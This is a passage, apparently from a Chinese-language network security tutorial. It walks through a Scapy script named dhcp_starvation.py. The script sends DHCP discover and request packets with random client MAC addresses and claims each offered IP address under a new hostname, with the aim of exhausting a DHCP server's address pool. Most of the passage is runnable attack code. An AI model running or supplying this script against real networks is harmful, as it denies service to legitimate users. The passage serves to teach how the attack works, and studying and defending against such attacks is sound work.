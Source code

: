 ```py
    udp1= UDP(sport=68,dport=67)
    bootp1= BOOTP(chaddr=RandString(12,'0123456789abcdef'))
```

+   创建 DHCP 发现和 DHCP 请求数据包如下：

```py
    dhcp1 = DHCP(options=[("message-type","discover"),"end"])
    dhcp2 = DHCP(options=[("message-type","request")])
    dhcp_discover = eth1/ip1/udp1/bootp1/dhcp1
    dhcp_discover[BOOTP].xid= 123456
```

+   只需使用 Scapy 发送 DHCP 发现数据包并使用原始套接字接收响应如下：

```py
    sendp(dhcp_discover)
    pkt = s.recvfrom(2048)
    num = pkt[0][14].encode('hex')
    ip_length = (int(num) % 10) * 4
    ip_last_range = 14 + ip_length
    ipheader = pkt[0][14:ip_last_range]
    ip_hdr = struct.unpack("!12s4s4s",ipheader)
    server_ip = socket.inet_ntoa(ip_hdr[1])
    obtained_ip = socket.inet_ntoa(ip_hdr[2])

```

+   使用从前面步骤获得的参数创建 DHCP 请求数据包如下：

```py
    print "Obtained IP ",obtained_ip
    print "DHCP server IP ",server_ip
    dhcp_request = eth1/ip1/udp1/bootp1/dhcp2
    dhcp_request[BOOTP].xid= 123456
    name='master'+str(i)

    i =i+1
    dhcp_request[DHCP].options.append(("requested_addr", obtained_ip))
    dhcp_request[DHCP].options.append(("server_id", server_ip))
    dhcp_request[DHCP].options.append(("hostname", name))
    dhcp_request[DHCP].options.append(("param_req_list",
    b'x01x1cx02x03x0fx06x77x0cx2cx2fx1ax79x2a'))
    dhcp_request[DHCP].options.append(("end"))
```

+   发送请求数据包并间隔`0.5`秒发送下一个数据包如下：

```py
    time.sleep(.5)
    sendp(dhcp_request)
```

代码名称为`dhcp_starvation.py`。代码的工作分为两部分。首先，攻击者机器发送发现数据包，然后 DHCP 服务器发送具有给定 IP 的 DHCP 提供数据包。在下一部分中，我们的代码提取给定的 IP 和服务器 IP，制作名为 DHCP 请求的新数据包，并将其发送到 DHCP 服务器。在运行程序之前，请检查 DHCP 服务器中的 DHCP 租约文件，该文件位于**`\var\lib\dhcpd\dhcpd.lease`**：

